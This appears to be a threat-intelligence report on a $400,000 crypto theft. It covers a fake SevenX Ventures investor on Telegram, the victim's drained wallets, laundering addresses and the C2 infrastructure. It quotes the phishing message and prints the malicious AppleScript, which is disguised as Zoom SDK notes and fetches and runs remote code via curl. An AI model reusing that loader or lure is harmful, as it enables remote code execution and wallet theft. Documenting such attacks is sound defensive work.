 # Theft from Individual C4

Date: June 28th, 2024

Amount Stolen: $400,000

Tags: 🔑

---

## Details

Contacted by Telegram account impersonating VC.  jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



## On-chain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Primary Theft 

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Laundry July 18, 2023
  
- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Deposit Address

- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Deposit Address

- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Deposit Address

- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Deposit Address

- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Deposit Address


## Connections

- C7 Theft


## URLs

- https://x.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon
```


## Malicious Script

```
############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc
```



## C2s

- support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_7xv_1.jpg)

![](../images/2024-07-01_7xv_2.jpg)

![](../images/2024-07-01_7xv_3.jpg)



